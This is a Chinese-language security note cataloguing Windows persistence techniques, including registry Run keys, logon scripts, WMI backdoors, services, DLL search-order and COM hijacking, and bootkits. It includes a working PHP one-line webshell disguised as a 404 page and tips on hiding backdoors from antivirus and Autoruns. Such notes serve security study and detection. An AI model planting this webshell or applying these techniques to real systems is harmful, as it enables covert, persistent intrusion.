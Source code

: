 <!-- TOC -->

- [1. 开机自启动](#1-开机自启动)
- [2. 用户登录时的自启动](#2-用户登录时的自启动)
- [3. 定时任务（schtasks、at）](#3-定时任务schtasksat)
- [4. WMI](#4-wmi)
- [5. webshell](#5-webshell)
- [6. 自启动服务](#6-自启动服务)
- [7. DLL加载顺序劫持](#7-dll加载顺序劫持)
    - [7.1. 正常加载顺序](#71-正常加载顺序)
    - [7.2. 安全加载顺序](#72-安全加载顺序)
    - [7.3. KnownDLL保护措施](#73-knowndll保护措施)
- [8. COM劫持](#8-com劫持)
    - [8.1. 参考资料](#81-参考资料)
- [9. Bootkit](#9-bootkit)
    - [9.1. 参考资料](#91-参考资料)
- [10. 启动型DLL注入（进程启动时会自动加载DLL）](#10-启动型dll注入进程启动时会自动加载dll)
- [11. 修改或者替换系统的二进制文件，并伪造签名](#11-修改或者替换系统的二进制文件并伪造签名)

<!-- /TOC -->
# 1. 开机自启动
* 注册表项：`HKEY_LOCAL_MACHINE\SOFTWARE\Microft\windows\currentversion\run`
* Startup文件夹
# 2. 用户登录时的自启动
* 在注册表路径：`HKCU\Environment\`创建字符串键值：`UserInitMprLogonScript`，键值设置为特定的脚本路径即可
* 修改`HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit`，修改为特定脚本、批处理路径
* 注册表`HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`下其他表项，甚至可以允许恶意代码在安全模式下加载
# 3. 定时任务（schtasks、at）
从任务计划程序中可以看到列表
# 4. WMI
WMI是微软基于Web的企业管理（WBEM）的实现版本，这是一项行业计划，旨在开发用于访问企业环境中管理信息的标准技术。主要与Powershell命令配合使用可以实现无文件攻击重要方式，具有良好的隐蔽性也是目前较为常用的持久化手段。WMI对象主要是执行一个WQL(WMI Query Language)的查询后，本地调用Powershell执行响应的代码由于没有文件保存在本地磁盘能够较好的免查杀。Black Hat 2015公布了一个WMIBackdoor的poc毕竟还是经典，在流行的powersploit与nishang框架里面也有相关的ps1文件。传送门：https://github.com/mattifestation/WMI_Backdoor
# 5. webshell
在指定的web服务器路径藏的很深的那种放置一个webshell，同时做好免杀后的shell往往比常规的系统后门更难被发现，这个操作很常规。
可以插入到网站自身的404页面中，注意 header要放在第一行,否则在利用的时候日志记录的不会是404
```html
<?php
    header('HTTP/1.1 404 Not Found');
    @eval($_GET["Error"]); // 一句话
?>
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html>
    <head>
        <title>404 Not Found</title>
    </head>
    <body>
        <h1>Not Found</h1>
        <p>The requested URL was not found on this server.</p>
    </body>
</html>
```
各类webshell种类比较多传送门：https://github.com/xl7dev/WebShell
# 6. 自启动服务
简单的分为二种方式将自己的恶意的可执行文件注册成服务或者调用系统进程如svchost加载dll文件运行服务。第二种方式相对隐蔽性较好由于系统进程的特殊性往往不敢轻易终止进程，由于此类均在PE文件或者其他类型文件在磁盘中容易被查杀，特殊处理过的除外。

Metasploit在Meterpreter下可以运行run metsvc将会在目标主机上以Meterpreter的服务的形式注册在服务列表中，并开机自动自动，但是此类操作极容易被AV查杀。 

如下是永恒之蓝挖矿病毒一个常见病毒，通过伪装服务名为系统服务瞒天过海。

加入一个已存在的服务组或者覆盖一个无关紧要的服务（新创建服务组容易被探测）。
# 7. DLL加载顺序劫持
## 7.1. 正常加载顺序
DLL加载顺序如下：
* 加载应用程序的目录
* 当前目录（GetCurrentDirectory），chdir函数会更改此值
* 系统目录（GetSystemDirectory）
* 16位子系统的系统目录（.../Windows/System）
* Windows目录（GetWindowsDirectory）
* PATH环境变量目录
## 7.2. 安全加载顺序
如果启用了安全加载，则顺序为134526。
## 7.3. KnownDLL保护措施
`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs`里面列出了一些Dll文件，可以跳过DLL的加载过程直接从系统目录加载。另外有相关键`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\ExcludeFromKnownDlls`。
# 8. COM劫持
主要通过修改CLSID下的注册表键值，实现对CAccPropServicesClass和MMDeviceEnumerator劫持，而系统很多正常程序启动时需要调用这两个实例，所以，这就可以用作后门来使用，并且，该方法也能够绕过Autoruns对启动项的检测。
## 8.1. 参考资料
* https://www.gdatasoftware.com/blog/2014/10/23941-com-object-hijacking-the-discreet-way-of-persistence
* Powershell版本的POC：https://github.com/3gstudent/COM-Object-hijacking
# 9. Bootkit
MBR后门主要的思路是读取主引导记录和把分区表从主引导记录中复制出来。然后把自己的包含恶意二进制数据的主引导记录放到主引导扇区，并复制新的分区表到它。但是，并非只有分区表需要保留，还有原来的主引导记录也需要保存下来，MBR病毒复制原始主引导记录到其它64个未用到的扇区。到MBR病毒执行完自己的操作后在读取原始的主引导记录并跳到0x7c00处执行来引导开机，比如暗云系列木马。通过PCHunter也能够进行简单的MBR的异常判断，此类后门往往具有较大的实施难度病毒种类往往也较少。
## 9.1. 参考资料
* https://slab.qq.com/news/tech/1308.html
# 10. 启动型DLL注入（进程启动时会自动加载DLL）
>见笔记《恶意代码/Windows进程注入技术》
# 11. 修改或者替换系统的二进制文件，并伪造签名